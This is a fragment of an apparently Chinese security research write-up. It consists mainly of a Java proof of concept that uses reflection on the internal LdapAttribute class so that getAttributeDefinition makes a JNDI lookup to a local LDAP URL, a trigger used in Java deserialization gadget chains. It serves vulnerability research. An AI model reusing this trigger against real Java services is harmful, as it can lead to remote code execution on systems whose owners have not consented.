 ```
var7 = this.c_resolveIntermediate_nns(var6, var2);
a\b\b就会成为 a \b\b
```



### `首先试了能否打通（如果打不通那就徒劳白费了）`：

```java
import javax.naming.CompositeName;
import javax.naming.InvalidNameException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class poc {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, InvalidNameException {


            String ldapCtxUrl = "ldap://127.0.0.1:9999";

            Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
            Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                    new Class[] {String.class});
            ldapAttributeClazzConstructor.setAccessible(true);
            Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                    new Object[] {"name"});

            Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
            baseCtxUrlField.setAccessible(true);
            baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

            Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
            rdnField.setAccessible(true);
            rdnField.set(ldapAttribute, new CompositeName("a//b"));

            Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition", new Class[] {});
            getAttributeDefinitionMethod.setAccessible(true);
            getAttributeDefinitionMethod.invoke(ldapAttribute, new Object[] {});
    }
}
```
